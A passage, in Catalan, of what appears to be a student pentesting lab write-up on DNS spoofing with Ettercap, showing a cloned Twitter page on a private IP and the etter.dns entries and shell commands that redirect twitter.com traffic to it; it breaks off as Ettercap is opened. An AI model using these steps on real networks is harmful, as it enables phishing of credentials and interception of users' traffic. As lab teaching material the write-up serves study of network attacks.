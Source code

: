 
Com podem observar la pàgina de Twitter està a la nostra IP 10.200.243.137 al port 80.

Ara necessitem que tot el tràfic per a twitter.com sigui redirigit a la meva IP. Utilitzarem DNS Spoof que està disponible a ETTERCAP.

S'ha de canviar el contigut del fitxer etter.dns per a que twitter.com apunto a la nostra IP.

`apt-get install mlocate`

`updatedb`

`locate etter.dns`

┌──(root㉿osboxes)-[/home/anonymous]
└─# locate etter.dns
/etc/ettercap/etter.dns
/usr/share/ettercap/etter.dns.examples

`cp /etc/ettercap/etter.dns /etc/ettercap/etter.dns.original`

`vi /etc/ettercap/etter.dns`

```
*.twitter.com   A       10.200.243.137
www.twitter.com PTR     10.200.243.137

www.alor.org    A       127.0.0.1
www.naga.org    A       127.0.0.1
```

__Obrim Ettercap.__


![](https://github.com/KeshiKiD03/asixproject2k22/blob/main/Official%20Documentation/Hacking%20&%20Pentesting/DNS%20Spoofing/Photos/Ettercap.png?raw=true)
